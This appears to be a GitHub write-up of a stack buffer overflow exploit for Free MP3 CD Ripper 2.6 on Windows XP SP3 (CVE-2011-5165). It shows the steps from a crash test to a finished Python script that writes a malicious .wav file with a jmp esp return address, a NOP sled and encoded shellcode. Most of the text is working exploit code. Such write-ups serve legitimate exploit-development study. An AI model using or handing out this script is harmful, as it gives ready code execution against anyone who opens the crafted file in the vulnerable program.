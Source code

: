 # Free MP3 CD Ripper 2.6_Win XP SP3 - Buffer Overflow

-   cve details: [CVE-2011-5165](https://nvd.nist.gov/vuln/detail/CVE-2011-5165)
-   Target: Free MP3 CD Ripper 2.6
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

In the first time , I create exploit for send buffer:

```
f=open("css.wav","w+")
exploit="A"*5000
f.write(exploit)
f.close()
```

Program is crashed and EIP 41414141. after this I use mona to create pattern and check , my buffer should be 4112.

```
f=open("css.wav","w+")
exploit="A"*4112 + "BBBB" + "C" * 100
f.write(exploit)
f.close()
```

All thing is Ok. For last step , I find a "jmp esp" and add it to exploit. My finally exploit :

```
f=open("css.wav","w+")


exploit="A"*4112 + "\x33\xc3\x1d\x77" + "\x90" * 8 +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")
f.write(exploit)
f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2011-5165_BOF/images/1.PNG)
